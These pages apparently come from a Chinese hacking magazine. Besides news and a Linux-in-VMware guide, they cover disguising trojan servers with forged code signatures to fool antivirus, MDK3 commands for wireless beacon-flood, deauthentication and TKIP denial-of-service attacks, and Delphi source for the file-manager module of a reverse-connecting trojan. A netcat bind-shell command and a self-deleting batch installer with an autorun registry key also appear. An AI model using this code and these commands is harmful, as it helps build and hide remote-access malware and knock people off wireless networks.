现在在“命令提示符”窗口中，输入 **signcode.exe** 激活证书添加工具，在弹出的窗口中根据提示操作即可。首先在弹出的窗口点击“下一步”按钮，接着点击“文件名”后的“浏览”按钮，然后在弹出的窗口选择配置好的服务端程序，如图4。

这里需要特别说明的是，如果该文件已经有数字签名，那么则会被新的数字签名所替换。

现在点击“下一步”按钮，在出现的窗口选择“自定义”选项，继续点击“下一步”按钮，这时在新的窗口里面点击“从文件选择”按钮，并在弹出的窗口选择刚刚生成的数字签名文件，如图5。如果在弹出的窗口没有发现数字证书文件的话，那么将“文件格式”中的设置修改为“所有文件”即可。

再点击“下一步”按钮，选择“磁盘上的密钥文件”后的“浏览”按钮，在弹出的窗口选择刚刚创建的密钥文件，如图6。至于其它的设置选项，按照程序默认的进行即可。这时会弹出一个窗口，要求用户输入密钥文件的密码，准确输入后“确定”，然后点击“下一步”按钮，在窗口里面选择要使用的哈希算法。接着再点击窗口中的“下一步”按钮，可以对正在签名的数据进行描述，比如添加上描述信息和 Web 地址，如图7。

当然，用户也可以对这些内容进行设置。操作完成以后，点击“下一步”按钮，程序要求设置一个时间戳数据。不过据我观察，数字签名中的时间戳很少用到，所以我们这里就不进行设置了。最后点击“完成”按钮，程序就可以将数字证书添加到我们指定的文件属性里面去，如图8。

### 三、小结

人们常说，假作真时真亦假，所以我们要欺骗杀毒软件的时候，需要骗过我们自己的眼睛，毕竟杀毒软件也是根据人们的意识编写的。除了使用上面介绍的添加数字证书以外，另外还可以对木马服务端进行其它的伪装，包括可以从图标、信息等多种手段来组合伪装，这样普通的用户想不上当都非常困难。

【本文所涉及的相关程序已收录在本期光盘中】

编辑点评：

记得这个伪数字签名出来的时候，我算是比较早知道的。经过数字签名添加之后，在判断时如果不留心，还真可以骗过一些粗心的分析员。

# 窗外“牛”语

春节期间，搞了一个无线路由器，终于让本本和家里的 2 台电脑连起来了，DMMG、GGJJ 一起上网，玩游戏的玩游戏，听音乐的听音乐，看视频的看视频，我呢……顺便 Google 了一下无线安全方面的资料，真是看得一头汗水啊！看来，以后的攻击将从有线转向无线，本本和手机的销售必将迎来一个高潮，别忘了，大家都盯着 3G 这个东西，都很期待它哦！


## 1、我国千万亿次超级计算机采用国产 Linux

据悉，我国千万亿次超级计算机正在等待有关部门立项，未来有可能采用国产 Linux 操作系统。按照此前的计划，超级计算机将在 2010 年交付使用，由于千万亿次超级计算机是国家 863 项目中的一部分，因此立项的时间有可能会在今年上半年。根据介绍，目前曙光仍然在和客户商谈超级计算机的要求，尚未洽谈到具体操作系统的配置，但很有可能采用国家“核高基”项目支持的 Linux 操作系统作为配置之一。目前，“核高基”项目正在经过有关部门复审。

目前业内人士也多关注千万亿次超级计算机上的应用问题，龙芯团队表示，他们将协助曙光公司开发千万亿次超级计算机的应用软件，而且国家有关部门将在今年上半年安排了部分重大专项进行硬件与大型软件的开发，并且曙光自身也投入了很大力量去开发软件，此前的部分软件在改造后也可以使用，因此应用也不会造成障碍。

相关人士表示，如果微软愿意在千万亿次超级计算机领域展开合作，曙光也持欢迎态度，不过这要视对方的战略定位。在此前的百万亿次超级计算机上，曙光首度采用了微软的 Windows HPC Server 2008 操作系统。

> 小迷点评：有些报道称，千万亿次超级计算机将会采用八核龙芯及 x86 架构的芯片，而龙梦科技相关人士也透露说，八核龙芯虽然在设计阶段，不过已接近尾声，预计流片时间将在今年 6 月左右。

## 2、古巴推广国产 Linux 操作系统对抗微软 Windows

据国外媒体报道，为对抗微软 Windows 操作系统，古巴政府最近发布了自己的 Linux 操作系统 Nova。Windows 系统由美国公司微软开发，因此古巴政府将 Windows 视为一种潜在威胁，因为美国安全部门可轻松获得 Windows 代码。此外，美国一直对古巴实施贸易封锁，因此古巴很难以合法手段获得微软产品和升级。

古巴信息科学大学自由软件学院院长海克特·罗德里格斯（Hector Rodriguez）表示，目前，古巴 20% 的计算机使用 Linux 系统，而且，不少大学和政府部门正向 Linux 转移。此外，罗德里格斯还称：“免费软件运动同时也符合古巴人民的思想意识：独立与自主。”

> 小迷点评：“免费软件运动同时也符合古巴人民的思想意识：独立与自主。”呵呵，这句话有点意思，个人认为，还是不要放弃协同合作比较好，取其精华，摒其糟粕，选择适合自己的东西吧。

## 3、华硕今年发布 Eee Phone 手机，或采用 Android

华硕透露，将联合 GPS 设备制造商 Garmin 一起开发 Eee Phone 手机，这将是一款低端智能手机，于今年晚些时候发布。有消息称，该款手机很可能采用谷歌 Android 系统。对此，华硕尚未发表评论，但在宣布合作计划时，两家公司表示，合作开发的手机产品将基于多种操作系统，包括 Windows Mobile、Linux 和 Android。

据悉，双方合作开发的第一款手机将是“Garmin-华硕 Nuvifone G60”，而不是 Eee Phone。在最近召开的 Mobile World Congress 大会上，双方还将发布另外一款手机，并计划于 2010 年推出。

> 小迷点评：看来是刮起了一阵 Eee 风啊！从 Eee PC 到 Eee Phone，未来还会出现带 Eee 的什么产品呢？有可能会有 Eee Car、Eee Home 吗？

## 4、基准测试，Ubuntu 战胜 Windows 7

Windows 的光芒万丈，也掩盖不了 Linux 的星星之火。Windows 7 相关的性能测试已经非常多了，但一个重要问题是：它是否快过 GNU/Linux？

因此 Tuxradar.com 用 Ubuntu（8.10 和 9.04）、Vista 和 Windows 7 的 x86 和 64 位版本，在相同配置的机器上进行了一番测试，这其中测试了安装时间、标准安装使用的硬盘空间、启动和关机时间、从 USB 向硬盘和从硬盘到硬盘拷贝文件的时间、Richards 基准测试得分等。

前两项测试意义不大，众所周知 Windows 臃肿，而其余测试更具参考价值，大家可以去这个地址看看：http://www.tuxradar.com/content/benchmarked-ubuntu-vs-vista-vs-windows-7，Ubuntu 在多项测试中都领先于 Windows 7，得分常常是后者的两倍之多。

> 小迷点评：对于两者的多方比较，个人认为还是以实用为主，大家自由选择。不过总的来说，大家比较在意启动速度和整体性能，这方面目前 Ubuntu 做得不错。但是要说到软件体验，就得看 Windows 7，但目前至少 Windows 7 还不是个选择，我用的是 XP。

## 虚拟机下安装 64 位版 Mandriva 2009

从本文您可以学到：

- 如何在虚拟机下安装 64 位版 Mandriva 2009

本文的安装环境为：Core 2 T8300 CPU + Windows XP SP3 + VMware 6.5.2

沉寂了一年的拉丁美洲最大的 Linux 厂商 Conectiva 前一段时间发布了最新版本的 Mandriva Linux 2009。Mandriva Linux 是一个以桌面应用为主的 Linux 操作系统，它的华丽典雅不逊于 openSUSE，简单易用媲美 Ubuntu，操作性也不输 Windows XP，并对中文的支持也非常完善。


图 1　提示电脑是 32 位系统

还整合了很多最新的特性和工具，启动时间约比以前快了 25%，用“惊艳”这个词来形容 Mandriva 2009 丝毫都不夸张。

和以往一样，Mandriva 2009 的 One 和 Free 版还将以 CD 和 DVD 在网上免费地提供给用户使用，Powerpack 版为收费的商业版本。Mandriva 2009 支持 32 位和 64 位平台，还分别提供了 GNOME 和 KDE 两个版本，您可以完全根据自己的喜好来选择使用 GNOME 还是 KDE。您可以到 http://download.chinaunix.net/download/0013000/12283.shtml 下载相应版本的 Mandriva 2009。

鄙人的 CPU 是 64 位的；之前还没尝试使用 64 位操作系统，今天就拿 64 位的 Mandriva 2009 尝尝鲜。在 VMware 6.5.2 中新建一个虚拟机，**操作系统版本选择 LINUX 里的 Mandriva Linux 64-bit**，注意不要和 Mandrake Linux 弄混了，那是 Mandriva 的前身（PS：我用的是 ISO 安装方式，杂志已经多次介绍过 VMware 虚拟机的用法，这里我就不详述了）。

可是在安装的时候，却提示我的电脑是 32 位的！如图 1，难道“奸商”卖给我的是个假 64 位 CPU？

Google 了下相关资料，找到了 VMware 厂商网站上关于在 VMware 上安装 64 位系统的介绍（地址是 http://www.petri.co.il/virtual_run_a_64_bit_guest_operating_system_in_vmware.htm，想详细了解的朋友可以看看），上面说在 VMware 的 64 位虚拟系统必须需要计算机支持 64 位，如果对此不清楚，可以下载个小程序检测一下自己的硬件环境是否可以支持 VMware 的 64 位虚拟系统。

我用那个程序在机器上运行了下，提示我的计算机是可以支持 64 位的，如图 2。


图 2　计算机是可以支持 64 位的

介绍的后面提到，在安装之前，必须进入 BIOS，把 Intel VT 设置为使用，接着重启电脑，就可以用虚拟机安装 64 位系统了。

### 小知识：

#### 什么是 Intel VT 技术呢？

VT 全称为：Virtualization Technology，Intel VT 技术是英特尔的硬件辅助虚拟化技术。这种技术可以让一个 CPU 工作起来就像多个 CPU 并行运行，从而使得在一部电脑内同时运行多个操作系统成为可能。Vanderpool 技术通过资源的整合，使得 Intel 处理器支持硬件虚拟化，而软件上进行自动划分一个成为虚拟机管理器（VMM）的程序对虚拟机进行 24 小时不间断的管理。绝大多数的英特尔 CPU 默认的设置都是不使用 Intel VT。

VMware 从 2005 年 11 月的 VMware Workstation 5.5 开始已经提供了对 VT 的支持，在开启 Intel VT 的状态下，虚拟机性能几乎所有项目都要提高 25% 左右！好了，问题找到了，接下来我们只要把 BIOS 中的 Intel VT 设置为使用就可以了。


图 3　Mandriva 2009 的界面

重新启动电脑，进入 **BIOS**，一般在 **Config（配置）** 里有 **CPU 的选项**，将 **“Intel Virtualization Technology”** 的设置由 **Disabled（不使用）** 改为 **Enabled（使用）**。保存后关机后启动（重启是不行的），虽然不同的主板，BIOS 的设置可能有差别，但基本上是类似的。

开机运行 VMware 就可以安装 Mandriva 2009 了，进入后按 F2 选择语言为“简体中文”，接下来的安装就都是中文的了，很简单，就不详细说了，以前杂志中也有过安装 Linux 系统的介绍。

大概 10 多分钟后，我们的 Mandriva 2009 就安装好了，其界面设计十分友好美观，如图 3，3D 效果也是很好很强大，操作简单，特别适合个人电脑用户使用。

虽然我是 GNOME 的忠实拥护者，但是不得不承认 Mandriva 2009 的 KDE4 风格的成熟，即使它还有些许不足，可是已经达到了高度可用的阶段。可以说，它是最好的 KDE 桌面，包括 GNOME 2 都没有办法和它相提并论。

> **编辑点评：**
>
> 使用虚拟机不难，安装 Mandriva 2009 也不难，文章的重点就是对 Intel VT 的设置，如果你也在虚拟机里安装 64 位系统的时候遇到本文的烦恼，相信你已经知道要怎么做了。

## 无线攻击并不只是破解密码

## 搞怪的 MDK3

从本文你可以了解到 MDK3 命令攻击方法。

**MDK3 是一种利用 IEEE 802.11 协议漏洞的无线攻击工具，可产生大量或特定虚假无线热点及进行 DOS 攻击，对无线客户端与无线路由器很有威胁，此类攻击很难有效被防御。** 它包含在 BT3（BackTrack 3）中，接下来偶将较常用的几个功能详细地说明。

进入 BackTrack 环境后，直接终端运行 mdk3 即可，详细说明可带参数 `--help` 查询！

### B 模式—Beacon Flood Mode

即洪水攻击模式，制造大量伪造的 AP 热点，有时能使无线连接程序或驱动崩溃。

实际应用：

可以用来制造一些无意义字符 SSID 的 AP，妨碍用户连接真正的 AP 热点，让用户在搜索周围热点的无线连接程序卡死。还可按照事先编写好的、包含要攻击的 SSID 和 MAC 内容的文件生成热点，导致用户被欺骗以至连接到虚假的 AP 热点，无法发现合法的 AP 热点，造成网络通讯故障。进一步还可对其进行钓鱼、中间人攻击等。

生成大量随机 SSID 的 AP 热点，命令为：`bt ~ # mdk3 ath0 b`，如图 1、图 2。

生成指定 SSID 的 AP 热点，命令为：`bt ~ # mdk3 ath0 b -n AnOnYmOuS`，指定热点名为 AnOnYmOuS，如图 3、图 4。

按设定好 SSID 内容的文件生成 AP 热点，命令为：`bt ~ # mdk3 ath0 b -f custom`，custom 文件中存放事先设置好的 SSID，如图 5、图 6。

按设定好的 SSID 和 MAC 内容的文件生成 AP 热点（如设置与合法 AP 一致，一直连接在合法 AP 的用户将会连接至虚假 AP 上），命令为：`bt ~ # mdk3 ath0 b -v custom`，custom 文件中存放设定好的一系列 SSID+MAC。

其它进阶自定义参数如下：

- `-d` 显示的热点模式为 AD-hoc。
- `-w` 显示的热点模式为 WEP 加密。
- `-g` 显示的热点速率为 54Mbit。
- `-t` 显示的热点模式为 WPA-TKIP 加密。
- `-a` 显示的热点模式为 WPA-AES 加密。

### 二、A 模式—Authentication DoS mode

DoS 认证攻击模式，向范围内的全部 AP 热点发送验证帧，导致合法用户通讯冻结、无线路由器重启。

实际应用：

一般是直接对无线路由器进行攻击，导致路由器挂掉，同时导致连接在路由上面的用户通讯受阻，说白了就是让所有人都上不了网。

无差别攻击（目标为网卡能搜索到的范围内的所有 AP 热点）命令为：`bt ~ # mdk3 ath0 a`，如图 7。

指定目标攻击命令为：`bt ~ # mdk3 ath0 a -a 23:45:24:0e:6f:09`，23:45:24:0e:6f:09 为目标 AP 的 MAC 地址。

### 三、D 模式—Deauthentication / Disassociation Amok Mode

取消验证／关联攻击模式，可使白名单内的用户正常访问 AP（其余用户全部踢出），或踢出黑名单内的用户使其无法正常访问 AP。

实际应用：如果在一个大家都蹭网的环境下，有些蹭网者很不规矩，经常开下载占用带宽。可按实际情况使用白名单或黑名单模式，对不规矩的家伙进行断线攻击。

### 四、M 模式—Michael shutdown exploitation（TKIP）

对 TKIP 加密进行溢出攻击，使其所有流量发生堵塞，此攻击模式主要对无线路由器进行骚扰，可造成路由器出错或假死。

直接输入 MAC 地址攻击，命令为：`bt ~ # mdk3 ath0 m -t 00:11:22:33:44:55`，此 MAC 地址是虚构的，将要进行 TKIP 攻击的目标 AP 的 MAC 输入后就可以进行连续不断的路由器溢出攻击了，如图 8。此外还有另外几个模式不是很常用，就不介绍了，感兴趣的朋友可以去自行实验。


基于 Java 开发的 Charon 就是 MDK3 的一个 GUI 前端，这里也就不作介绍了。既然核心的 MDK3 已经阐述清楚了，想必动动鼠标的图形界面版本就更不在话下了吧？凭恶命令行的朋友自行 Google 吧！

PS：上文命令中的 ath0 为 Atheros 芯片无线网卡的设备名（个人认为最适合无线攻击使用的芯片），此名称可能会和所使用网卡的不同而不同。

> 编辑点评：无线攻击将是未来的热点了，大家继续关注本刊，好好学习吧！

## 反弹木马编写之反弹式文件管理模拟（上）

图／无敏小龙（张悼）

从本文您可以学到：

- 利用 DELPHI 的 SOCKET 模拟远程文件管理

大家在使用灰鸽子等远程控制软件时，往往可以感觉到它们的远程文件管理功能带给我们的便捷，如图 1 所示，本文就使用灰鸽子的编写语言 DELPHI 来原汁原味地模拟出灰鸽子反弹木马的文件管理功能。

另外，鉴于本文中所涉及的反弹上线和指令发送等知识点，在以前的文章中已有所介绍，所以这里不准备花费大量笔墨介绍。


- C: `printf("新年快乐！")`
- C++: `cout<<"新年快乐！"`
- VC: `MessageBox("新年快乐！")`
- C#: `System.Console.WriteLine("新年快乐！")`
- Java: `System.out.println("新年快乐！")`
- JScript: `alert("新年快乐！")`
- ASP: `Response.Write "新年快乐！"`
- PHP: `echo "新年快乐！"`
- VB: `MsgBox("新年快乐！")`
- VBScript: `MsgBox "新年快乐！"`
- Delphi: `ShowMessage('新年快乐！')`
- Shell: `echo 新年快乐！`
- Perl: `print '新年快乐！'`
- PowerBuilder: `messagebox('新年快乐！')`

祝大家在新年里，男生多 Oracle 般健壮，女生像 Vista 般漂亮，桃花运像 IE 中毒般频繁，钱包如 Gmail 容量般壮大，开机速度赶上微软打补丁！这说明友谊像木马一样猖獗，生活像重装电脑后一样幸福……

这一块，如果读者朋友不太明白，可以查看光盘中的代码，或者翻看之前介绍的与反弹上线相关的文章。

### 被控端编写

首先给出程序被控端的界面，如图 2 所示，用到了一个 ClientSocket 控件来通信，一个 Timer 控件用来实现不断尝试。这里来介绍下程序实现的流程：

首先利用 Timer 控件不断尝试连接控制端，一旦连接成功，控制端会发送“drive”指令过来；此时调用 `get_drives` 这个笔者自定义的函数，用来获取磁盘列表。调用此函数之后会返回一个 stringlist 类型数据，通过这个 stringlist 的 TEXT 属性得到它的文本内容。

接着使用 Socket 的 `SendText` 方法发送该数据，数据的格式为：`drive+磁盘列表`，然后等待控制端发送过来指令。如果是“dir+file”指令，则说明控制端要求获取目录列表和文件列表，此时调用笔者编写的 `get_dir` 函数和 `get_file` 函数即可得到目录和文件列表。

最后使用 Socket 的 `SendText` 方法即可发送目录和文件列表，数据格式为：`dir+file+目录和文件列表`。

被控端的核心代码如下：

```pascal
function get_dir(dir:string):tstringlist;
var
  i: integer;
  a: tsearchrec;
  dt: tdatetime;
  s_temp_dir: string;
  list_dir: tstringlist;
begin
  i := findfirst(dir+'\\*.*', faanyfile, a);
  list_dir := tstringlist.Create;
  while i=0 do
  begin
    // 一定要用 (a.Attr and faDirectory) <> 0
    if ((a.Attr and faDirectory) <> 0) and (a.name<>'.') and (a.name<>'..') then
    begin
      dt := FileDateToDateTime(a.Time);
```

## 快码加编

```pascal
s := FormatDateTime('yyyy-mm-dd hh:nn:ss', dt);
temp_dir := a.Name + '|文件夹|' + s; // hchoj文件夹|2008-8-8 8:8:8
list_dir.Add(temp_dir);
...
result := list_dir;
end;

function get_file(dir:string): TStringList;
var
  i:integer;
  a:TSearchRec;
  dt:TDateTime;
  s,temp_file:string;
  list_file:TStringList;
begin
  i := FindFirst(dir + '\*.*', faAnyFile, a);
  list_file := TStringList.Create;
  while i = 0 do
  begin
    if ((a.Attr and faDirectory) <> 0) then // 是目录
      // 是目录，跳过，不处理
    else if (a.Attr <> faDirectory) and (a.Name <> '..') and (a.Name <> '.') then // 不是目录并且不是..和.
    begin
      dt := FileDateToDateTime(a.Time);
      s := FormatDateTime('yyyy-mm-dd hh:nn:ss', dt);
      temp_file := a.Name + '|文件|' + IntToStr(a.Size div 1024) + 'KB' + '|' + s;
      list_file.Add(temp_file);
    end;
    i := FindNext(a);
  end;
  result := list_file;
end;

//---------------- 获取磁盘 ----------------
function get_drives(): TStringList;
var
  i:integer;
  n:integer;
  a:TStringList;
begin
  a := TStringList.Create;
  for i := 65 to (65 + 25) do
  begin
    n := GetDriveType(PChar(Chr(i) + ':\'));
    case n of
      DRIVE_REMOVABLE:
        a.Add(Chr(i) + ':\ (移动硬盘)');
      DRIVE_FIXED:
        a.Add(Chr(i) + ':\ (硬盘)');
      DRIVE_REMOTE:
        a.Add(Chr(i) + ':\ (网络硬盘)');
      DRIVE_CDROM:
        a.Add(Chr(i) + ':\ (CD-ROM)');
      DRIVE_RAMDISK:
        a.Add(Chr(i) + ':\ (光盘)');
    end;
  end;
  result := a;
end;

//---------------- 获取磁盘 ----------------
procedure TForm1.ClientSocket1Read(Sender: TObject;
  Socket: TCustomWinSocket);
var
  order:string;
  url,msg:string;
  sl1:TStringList;
begin
  order := Socket.ReceiveText;
```

```pascal
if Copy(order,1,5) = 'drive' then // 磁盘
begin
  ClientSocket1.Socket.SendText('drive' + get_drives.Text); // 发送磁盘列表
end;
if Copy(order,1,8) = 'dir+file' then
begin
  order := Copy(order,9,Length(order)); // 得到要获取的磁盘路径
  sl1 := TStringList.Create;
  sl1.Add('dir+file');
  sl1.Add(get_dir(order).Text);
  sl1.Add(get_file(order).Text);
  Socket.SendText(sl1.Text); // 发送目录和文件列表
end;
end;
```

### 控制端编写

上面介绍了被控制端的程序代码编写，这里就开始编写程序的控制端，主要使用到了 ServerSocket 控件来实现数据的网络通讯，程序界面如图3所示。


程序控制端的流程如下：

- 首先在单击“监听”按钮之后程序开始监听8888端口，此时等待被控端的连接，当被控端连线成功后，程序的控制端自动发送“drive”指令，也就是要求被控端发送磁盘列表过来。
- 接着在 Socket 的 Read 事件中得到被控端发送过来的数据，如果是“drive”开头，则说明是磁盘列表，此时把获取的磁盘列表显示在组合框中，供用户选择。
- 最后，在单击“浏览”按钮，或者选择组合框中其他磁盘时，会自动发送获取目录和文件列表指令，格式为：dir+file+目录路径。此时，再次在 Socket 的 Read 事件中获取数据，如果是“dir+file”开头，则说明获取的数据是目录和文件列表。使用了一个 Memo 控件作为媒介保存数据。通过一个 For 循环遍历 Memo 框中的数据，把目录或者文件显示在 ListView2 控件中。

控制端部分核心代码如下：

```pascal
//-------------------- 浏览 --------------------
procedure TForm1.Button3Click(Sender: TObject);
begin
  try
    Memo1.Clear;
    ListView2.Clear;
    ServerSocket1.Socket.Connections[ListView1.Selected.Index].SendText('dir+file' + Edit2.Text);
  except
    ShowMessage('发送指令出错！');
  end;
end;

//-------------------- 向上 --------------------
procedure TForm1.Button2Click(Sender: TObject);
var
  i,pos1:integer;
  s,s2,s3:string;
begin
  s := Edit2.Text;
  for i := Length(Edit2.Text) downto 1 do  // 修剪 Edit2.Text
  begin
    s2 := s2 + Copy(s,i,1);
  end;
  pos1 := Pos('\', s2);
  s3 := Copy(Edit2.Text,1,Length(Edit2.Text) - pos1);
  Edit2.Text := s3;
  Button3.Click;  // 刷新
  ListView2.Clear;
end;
```

```pascal
// 文件列表获取
procedure TForm1.ListView2DblClick(Sender: TObject);
begin
  if ListView2.Selected.SubItems.Strings[0] = '文件夹' then  // 类型是文件夹
  begin
    Edit2.Text := Edit2.Text + '\' + ListView2.Selected.Caption;
    try
      // ServerSocket1.Socket.Connections[Form1.ListView2.Selected.Index].SendText('dir+file'+Edit2.Text);
      Button3.Click;
      ListView2.Clear;  // 清空旧的文件列表
    except
      Application.MessageBox('发送命令出错','Alert',MB_OK);
    end;
  end;
end;
```

```pascal
// 分解出文件列表和目录列表
procedure TForm1.ServerSocket1ClientRead(Sender: TObject;
  Socket: TCustomWinSocket);
var
  order:string;
  sl1:TStringList;
  a:TListItem;
  i:integer;
  pos1,pos2:integer;
  s1,s2:string;
begin
  order := Socket.ReceiveText;
  if Copy(order,1,5) = 'drive' then
  begin
    sl1 := TStringList.Create;
    sl1.Text := Copy(order,6,Length(order));
    ComboBox1.Clear;
    ComboBox1.Items.Assign(sl1);  // 得到磁盘列表
  end;

  if Copy(order,1,8) = 'dir+file' then
  begin
    // ShowMessage(order);
    order := Copy(order,9,Length(order));
    Memo1.Text := order;
    for i := 0 to Memo1.Lines.Count - 1 do
    begin
      if Memo1.Lines.Strings[i] <> '' then
      begin
        a := ListView2.Items.Add;  // ListView2
        order := Memo1.Lines.Strings[i];  // 重新给 ORDER 赋值
        pos1 := Pos('|', order);
        s1 := Copy(order,1,pos1 - 1);  // 得到文件或者目录名称
        a.Caption := s1;  // 添加 ListView 的标题
        Delete(order,1,pos1);  // 删除第一个|左侧的字符串
        pos2 := Pos('|', order);
        s2 := Copy(order,1,pos2 - 1);
        a.SubItems.Add(s2);  // 添加
        Delete(order,1,pos2);
        a.SubItems.Add(order);
      end;
    end;
  end;
end;
```

### 软件测试和运行

在控制端和被控端代码编写完毕之后，就可以按下 F9 键分别运行程序。此时，在控制端的监听端口中输入8888，然后单击“监听”按钮，可以看到被控制端会马上上线。选择上线的控制端后，就可以选择一个磁盘进行目录和文件列表的查看，如图4所示。


大家如果对获取的数据不是太熟悉，可以使用一个 ShowMessage 函数显示获取的数据信息，代码如下：

```pascal
if Copy(order,1,8) = 'dir+file' then
begin
  ShowMessage(order);
end;
```

此时，如果获得了“dir+file”指令，得到的数据其实就是：目录或者文件名 + “|” + 类型 + “|” + 创建时间，如图5所示。


经过对本文的学习，相信大家一定对木马的磁盘列表和目录文件列表的获取有了较为深刻的认识。在此基础上，你可以添加自己的功能代码，比如运行或者删除程序等功能，这就靠自由发挥了哦。

> （文章中所涉及的相关代码及工具都已经收录在光盘中）

## 编辑点评

本文就是一个远程控制软件文件操作模块的编写教程，只要在此基础上稍作修改，就可以适应各种远程控制软件了。

## 钟馗系统端口监视报警器制作

### ——从原型分析到最终安装包制作

风夜翼

- 从本文您可以学到：
- 了解 NC
- 利用 NC 及批处理编写安全工具

### 前言与准备工作

在以前的手册上也有过介绍 DIY 系统防御程序的文章，可是基本上用的不是 VB 就是 C 语言，对于刚入门的新人来说，虽然很感兴趣，但是动手实践却被挡在了门外，到头来只能是看看源代码而已。我觉得只有亲自动手去做了，去编译了，去运行了，才能真正地去掌握和理解一套程序的编写思路和原理。

编写程序最难的不是语言学得多少、应用得如何，而是这个程序的运行思想，也就是编写思路才是最重要的！刚入门的新人一定要培养起这么一种观念：软件只是被用来减轻我们重复劳动用的，不是黑客的全部，也不是在入侵时最重要的东西。最重要的是一双善于观察的眼睛和一路灵活迅捷的思维。

好了，我们来看看这次编写程序的基本功能和所要用到的一些材料。

系统监视报警功能简介：软件在后台自动运行后，会监视本机的一些危险端口，如果发现有非法连接或者扫描时，便会在本机给出一个可视化的警告窗口，同时断开非法连接。

编写所需要的材料：6个新建的文本文档、nc.exe、批处理潜行者（编译工具）。

### 原理举例分析

其实，这个端口监视报警程序运用的最主要的程序就是 nc.exe。NC 又被称为“网络军刀”，其用法多样，很实用。老鸟们都认识它吧？新人不知道的可以去百度或者 Google 查询一下，我就不多说了。在这里我们着重用到的是它的一个远程正向连接后门命令，具体怎么操作呢？举个例子。

首先在 A 机上运行命令“nc.exe -L -vv -p 2102 -e cmd.exe”，然后在 B 机上运行“telnet A机IP 2102”，这时将在 B 机上得到一个 A 机的 cmd shell。

看到这里我们想一下，如果将“nc.exe -L -vv -p 2102 -e cmd.exe”中给 B 机 shell 的 cmd.exe 换成 calc.exe 会出现什么情况呢？我试了一下，在 B 机连接之后，没有出现 cmd shell，但是在 A 机上计算器的运行窗口却出来了！也就是 B 机在连接 A 机的端口时被 NC 监听捕获，通过参数“-e”调用运行了 calc.exe！

看到这里聪明的你们一定想到了，我们这次编写的端口监听器无非就是将“-e”后面的“cmd.exe”替换成一个可视化报警窗口程序而已。

原理大致就是这样，但是在程序的编写过程中有许多细节性质的东西很重要。例如监听后如何避免影响我们对监听端口的使用，如何进行不间断的实时监控等，这些都是我们要在后面解决的问题。

### 编写组件源码分析

拿出准备好的6个新建文本文档，开始编写各个组件，编写完毕后再组装。我们从简单的开始，首先编写可视化报警框，实际上就是一个 VBS 消息对话框。简单吧？代码如下：

```vbscript
msgbox "报告！危险端口检测到可疑扫描或连接入侵！",16,"端口监控警报！"
```

编写时注意标点符号，必须是英文半角的哦！完成后将这个文本保存为 bj.vbs 文件，放在一边待用。再拿来2个文本文档，分别写入以下代码：

```reg
Windows Registry Editor Version 5.00
[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\TerminalServer\WinStations\RDP-Tcp]
"PortNumber"=dword:00000d33
```

上面的这段代码保存为 307.reg 文件，下面的代码保存为 3389.reg 文件。

```reg
Windows Registry Editor Version 5.00
[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\TerminalServer\Wds\rdpwd\Tds\tcp]
"PortNumber"=dword:00000d33
```

完成后仍然放在一边待用，下面到我们的主体监控文件的编写了，同样是使用文本文档，输入以下代码：

```bat
nc.exe -L -vv -p 3389 -e bj.exe|nc.exe -L -vv -p 23 -e bj.exe|nc.exe -L -vv -p 4899 -e bj.exe|nc.exe -L -vv -p 139 -e bj.exe|nc.exe -L -vv -p 445 -e bj.exe|nc.exe -L -vv -p 135 -e bj.exe
```

这一段便是我们的监控文件代码，把它保存成 portscan.bat 文件。这里要提醒大家注意一个参数和一个特殊符号，参数是“-p”，它后面的数字便是我们要监视的端口，大家可以自行更改；符号“|”是一个管道符，也就是它前后的命令可以同时执行，这样就可以同时监控多个端口了。

说到这，再说一个和它有点关系的符号“&”，它的作用是只有当前面的命令执行成功后才执行它后面的命令。感兴趣的可以记一下，我们这里用不到这家伙。

我们看刚才输入的代码，根据讲到的原理，调用的是 bj.exe。bj.exe 就是可视化报警框吗？是刚才写好的那个 bj.vbs 编译成的 exe 文件吗？注意了！不是的！它不是 bj.vbs。

直接将刚才那个 bj.vbs 编译成的 exe 文件放在这里虽然是可以达到目的，可是在报警完毕以后呢？这个程序是停止了运行的，不会再继续监听了。也就是说，在 NC 将 bj.vbs 触发后，bj.vbs 弹出了警告框，之后一切就归于平静了。因为 nc 和 bj.vbs 都完成了自己的使命，没有人再次唤醒 portscan.bat 这个程序运行 nc 监听端口了。除非用户在看到一次报警完毕后再次立刻手动运行 portscan.bat！

这样很不现实，有没有可能在一次报警完毕后，能自动地将 portscan.bat 调用运行呢？答案是可以的！于是我们上面代码中的 bj.exe 便出现了。

bj.exe 的代码同样是在文本文档中输入，完毕后保存为 bj.bat 文件，bj.exe 是 bj.bat 编译后的 exe 文件。

```bat
taskkill /IM nc.exe /F
start bj.vbs
start portscan.exe
Exit
```

大家仔细再看一下这段代码，只有四句，但在整体中的作用可不能小视。“taskkill /IM nc.exe /F”，这句是结束 nc 的进

### 安装包的分析及其制作

下面来看看安装程序的制作。我们需要这个报警器开机后自动运行，必须要将 portscan.exe 放到启动项目，而且它监听了 3389 端口和 23 端口。为了不影响我们正常的使用，需要将这两个默认端口在程序安装的时候自动更改成自定义的端口，让 3389 和 23 成为一个“蜜罐”式的诱惑端口。另外，我们还需要将上面零散的组件放在一个文件夹中规整。

这么多的要求，我们必须在安装时一次完成。虽然我们完全可以借助 MSI 安装打包程序来做，但是别忘了更加简单易用的 WinRAR，它也算是打包安装软件哦。

**我们一次要完成那么多任务，还需要一个帮手。来打开我们 6 个文本文件中最后的 1 个吧，在其中输入以下代码：**

```bat
@Echo Off
Title 第三区端口监视程序
color 0a
Echo msgbox "为了设置安全监控，您本机的3389端口已被更改为307端口，本机的telnet默认端口被自动修改为1023，请您牢记！",42,"第三区端口监视器" > %windir%\307.vbs
Echo msgbox "为了设置安全监控，portscan.exe已经被设置成开机自动运行，如有防火墙拦截请您设置为允许！",42,"第三区端口监视器" > %windir%\portscan.vbs
@md %windir%\portit
@move /y portscan.exe %windir%\portit
@move /y bj.exe %windir%\portit
@move /y nc.exe %windir%\portit
@move /y bj.vbs %windir%\portit
reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v disangu /t REG_SZ /d %windir%\portit\portscan.exe /f >nul
@regedit /s 3389.reg
@regedit /s 307.reg
tlntadm config port=1023
@start %windir%\307.vbs
start %windir%\portscan.vbs
start %windir%\portit\portscan.exe
Del /Q 307.reg
Del /Q 3389.reg
Del %0
```

将以上代码保存为 setup.bat，然后用批处理编译者编译成 exe 文件，最好编译成隐藏后台运行的同名文件。这里再说一下 307.reg 和 3389.reg 是如何自定义端口的：

